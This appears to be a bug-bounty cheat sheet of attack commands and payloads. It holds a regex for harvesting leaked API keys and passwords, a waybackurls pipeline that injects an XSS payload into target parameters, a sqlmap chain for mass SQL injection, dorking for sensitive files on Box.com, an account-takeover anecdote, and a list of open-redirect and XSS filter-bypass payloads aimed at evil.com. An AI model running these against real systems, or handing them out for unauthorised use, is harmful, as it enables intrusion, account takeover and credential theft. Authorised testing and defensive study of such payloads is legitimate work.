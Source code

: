 Search for all leaked keys/secrets using one regex! 


(?i)((access_key|access_token|admin_pass|admin_user|algolia_admin_key|algolia_api_key|alias_pass|alicloud_access_key|amazon_secret_access_key|amazonaws|ansible_vault_password|aos_key|api_key|api_key_secret|api_key_sid|api_secret|api.googlemaps AIza|apidocs|apikey|apiSecret|app_debug|app_id|app_key|app_log_level|app_secret|appkey|appkeysecret|application_key|appsecret|appspot|auth_token|authorizationToken|authsecret|aws_access|aws_access_key_id|aws_bucket|aws_key|aws_secret|aws_secret_key|aws_token|AWSSecretKey|b2_app_key|bashrc password|bintray_apikey|bintray_gpg_password|bintray_key|bintraykey|bluemix_api_key|bluemix_pass|browserstack_access_key|bucket_password|bucketeer_aws_access_key_id|bucketeer_aws_secret_access_key|built_branch_deploy_key|bx_password|cache_driver|cache_s3_secret_key|cattle_access_key|cattle_secret_key|certificate_password|ci_deploy_password|client_secret|client_zpk_secret_key|clojars_password|cloud_api_key|cloud_watch_aws_access_key|cloudant_password|cloudflare_api_key|cloudflare_auth_key|cloudinary_api_secret|cloudinary_name|codecov_token|config|conn.login|connectionstring|consumer_key|consumer_secret|credentials|cypress_record_key|database_password|database_schema_test|datadog_api_key|datadog_app_key|db_password|db_server|db_username|dbpasswd|dbpassword|dbuser|deploy_password|digitalocean_ssh_key_body|digitalocean_ssh_key_ids|docker_hub_password|docker_key|docker_pass|docker_passwd|docker_password|dockerhub_password|dockerhubpassword|dot-files|dotfiles|droplet_travis_password|dynamoaccesskeyid|dynamosecretaccesskey|elastica_host|elastica_port|elasticsearch_password|encryption_key|encryption_password|env.heroku_api_key|env.sonatype_password|eureka.awssecretkey)[a-z0-9_ .\-,]{0,25})(=|>|:=|\|\|:|<=|=>|:).{0,5}['\"]([0-9a-zA-Z\-_=]{8,64})['\"]

---------------------
Automate your XSS:

echo https://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq


---------------------------

#BugBountyTips search for sqli using wayback urls Passively using #Nuclei template (inspired from GF tempelates).
CMD : "nuclei -target waybackUrls.txt -t ./sqli-vuln-params.yaml"

----------------------------------------

Site -> Amass -> Waybackurls -> environment.js

Boom Api key

--------------------------------------

Unknown recon Method via http://box.com 

waybackurls $TARGET.app.box.com

or just use google DORK :
site:http://box.com "$TARGET"

Sometimes the employees upload sensitive files to the public on http://box.com.

---------------------------------------







--------------

waybackurls always rockxx❤️, got awarded $$$$ for Account takeover.
1. waybackurls target > waybck.txt
2. found an unauth endpoint: target/api/reset?user=--id-here--&type=email
3. page accepting new email and password🙄
4. tried by entering my userid, new email and password

----------------------------

Methods To Find Sqli💉💉

Command Line Tools Like a Pro
1. sublist3r -d target | tee -a domains 
2. cat domains | httpx | tee -a alive
3. cat alive | waybackurls | tee -a urls
4. gf sqli urls >> sqli
5. sqlmap -m sqli.txt --dbs --batch







-----------------------

# bug-bounty
Find domains 
http://crt.sh/

https://crt.sh/?O=Sony&output=json
  https://crt.sh/?q=Sony&output=json
https://crt.sh/?q=f3cd41a6035ba1b1be1670386918893734363e53


parsed.issuer.organization.raw: "Apple Inc."
https://search.censys.io/certificates


Basic Payloads:-

You can try these basic payloads to test for Open redirect vulnerability on any application

https://example.com/login?redirect=http://evil.com
https://example.com/login?redirect=javascript:alert(1);
Here evil.com is our website and if example.com redirects you to this, then its vulnerable. If this is resolved then try this payloads:-

https://example.com/login?redirect=http://example.com@evil.com
https://example.com/login?redirect=http://example.com%09.evil.com
If these are resolved, then try these:-

https://example.com/login?redirect=http://example.com%3F.evil.com
https://example.com/login?redirect=http://example.com%2523.evil.com
https://example.com/login?redirect=http://evil.com?c=.example.com
https://example.com/login?redirect=http://example.com%252Eevil.com
Other Open Redirect Payloads:-

https://example.com/login?next=//example.com@evil.com
https://example.com/login?next=/\/evil.com
https://example.com/login?next=//%2F/evil.com
https://example.com/login?next=/%0D/evil.com
https://example.com/login?next=/%5Cevil.com
https://example.com/login?next=//evil%E3%80%82com
https://example.com/login?next=%09http:///example.coc%40evil.com
Try this Intigriti open redirect payload generator tool here 


XSS Payloads for Open redirect:-

";alert(0);//
java%0d%0ascript%0d%0a:alert(0) j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0` java%07script:prompt`0` java%09scrip%07t:prompt`0` jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript pjavascriptt:confirm`0`
https://www.cyberick.com/post/open-redirect-and-its-bypasses
